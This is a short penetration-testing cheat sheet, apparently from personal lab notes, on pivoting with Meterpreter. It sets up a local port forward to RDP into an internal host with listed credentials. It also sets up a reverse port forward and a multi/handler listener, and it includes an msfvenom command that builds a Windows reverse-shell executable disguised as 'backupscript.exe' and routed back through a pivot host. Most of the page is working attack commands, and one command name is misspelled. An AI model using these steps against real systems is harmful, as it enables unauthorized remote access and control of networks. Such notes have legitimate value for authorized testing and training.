 -- -
### Port forward local port to remote rdp port
Bind local port 3300 to remote port 3389
```bash
# setup from meterpreter shell
portfwd -l 3300 -p 3389 -r 172.16.5.19

# use port forward to rdp into box
xfreerdp /v:localhost:3300 /u:victor /p:pass@123

# see port forward
netstat -antp
```
### Reverse Port Forward
-- -
Used to get a reverse shell. The reverse shell is sent from an internal server, to a port on our pivot host, who will forward the shell to our attack box. In this case, the internal server sends the reverse shell to our pivot host on port `1234`, then the pivot host will forward it from port `1234` to port `8081` on our attack box which should have a listener waiting to catch the reverse shell.
##### Setup
```bash
# from meterpreter shell
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

# background session 
bg

# should be in: multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lport 8081
set lhost 0.0.0.0
run
```
##### Payload
```bash
# lhost here is the pivot host
msfvenom -p windows/x64/maeterpreter/reverse_tcp LHOST=172.16.5.129 lport=1234 -f exe -o backupscript.exe
```
Then, [[Dark Arts I/File Transfer/~Home|File Transfer]] to pivot host, then to the target internal host. Run it and you should get a reverse shell on the attackbox through the pivot host. 